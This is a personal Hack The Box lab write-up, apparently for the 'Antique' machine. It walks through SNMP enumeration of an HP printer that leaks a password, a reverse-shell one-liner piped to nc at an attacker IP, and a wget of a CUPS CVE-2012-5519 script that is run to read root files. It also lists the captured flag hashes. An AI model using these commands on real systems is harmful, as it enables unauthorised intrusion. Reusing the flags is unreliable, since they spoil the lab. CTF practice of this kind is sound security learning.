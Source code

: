 # Enumeration
## nmap scan
`nmap -sV -A -v -p- 10.10.11.107`
![[Screenshot 2022-05-04 at 13.18.35.png]]
`sudo nmap -sU 10.10.11.107` showed snmp to be open
![[Screenshot 2022-05-04 at 13.53.47.png]]
`sudo nmap -sU --script snmp-brute 10.10.11.107`
![[Screenshot 2022-05-04 at 14.45.12.png]]

## SNMP
![[Screenshot 2022-05-04 at 13.56.39.png]]
`snmpget -v 1 -c public 10.10.11.107 .1.3.6.1.4.1.11.2.3.9.1.1.13.0` with the latter string of numbers being the OIB
![[Screenshot 2022-05-04 at 15.07.21.png]]
Using a [hex to ascii converter](https://www.rapidtables.com/convert/number/hex-to-ascii.html) I copied and pasted the hex and got a result _P@ssw0rd@123!!123_ which seemed to work:
![[Screenshot 2022-05-04 at 15.09.59.png]]
`snmpwalk -v 1 -c public 10.10.11.107` showed what I think is the 'private string'
![[Screenshot 2022-05-04 at 15.20.27.png]]
# Foothold
Now that I have esyablished a connection, I can execute commands using _exec_
![[Screenshot 2022-05-04 at 15.51.09.png]]
Looks like I am part of the lpadmin group
![[Screenshot 2022-05-04 at 15.52.34.png]]

`exec rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f` got me a shell:
![[Screenshot 2022-05-04 at 16.03.03.png]]

# Privesc
imported _linpeas.sh_ 
there is a directory _cups_ in _/var_ which appears might be [usable](https://www.cvedetails.com/cve/CVE-2012-5519/) in combination with being in the _lpadmin_ group
![[Screenshot 2022-05-04 at 16.12.30.png]]

`searchsploit cups 1.4.4`  resulted in a couple exploits
![[Screenshot 2022-05-04 at 16.24.17.png]]

## cups + lpadmin
`cat /var/run/cups/certs/0` gave me a cert number
![[Screenshot 2022-05-04 at 16.31.27.png]]

`cat /etc/cups/cupsd.conf` showed the config file for the program, but I could not access `10.10.11.107:631/admin`

A good article on the [exploit](https://github.com/0zvxr/CVE-2012-5519)
![[Screenshot 2022-05-04 at 16.40.51.png]]

## Method
1. `git clone https://github.com/0zvxr/CVE-2012-5519.git`into attacker machine
2. `wget http://10.10.14.9:8000/cups-root-file-read.sh` from lp shell 
3. `chmod 700 cups-root-file-read.sh` + `./cups-root-file-read.sh`
4. from this shell read `/root/root.txt`:
![[Screenshot 2022-05-04 at 17.51.19.png]]
# Flags
e4735d2235b0d965ff07b7a1166f545c
3a1794ba28ccd0ec01548ad1a78423fe
# Thoughts
- easier than I thought --> only needed help once as I felt vey stuck although it turned out I was already in the system and only executed the commands wrongly...
- took some time to find an exploitable set of code for the privesc, but found a good one and executed it all without a writeup! going to have a lookover now for other ways it could have been done thoug..
- a good taster
# New Things Learnt
- HP JetDirect = Technology allowing printers to be directly connected to LANs
- snmpget + OIB
- telnet

# Other privesc methods
1. [This writeup](https://medium.com/@v1per/antique-hackthebox-writeup-7349e7804b81) used the ports 631 and 9090 to get access to the cups server and from there used a metasploit module _cups_root_file_read_ to access the file. This is essentially what I did, but when I checked port 631 it was closed, so this did not work for me. (Although `ss -lntp` shows it is?:)
![[Screenshot 2022-05-04 at 18.14.23.png]]
3.  this [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/post/multi/escalate/cups_root_file_read.rb). The thing that confused me was that I needed a meterpreter session beofre I could execute the payload. 
# resources
- [telnet pentesting](https://book.hacktricks.xyz/network-services-pentesting/pentesting-telnet)
- [snmp pentesting](https://book.hacktricks.xyz/network-services-pentesting/pentesting-snmp)
- [printer hacking](http://www.irongeek.com/i.php?page=security/networkprinterhacking)
- [the bug](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=692791)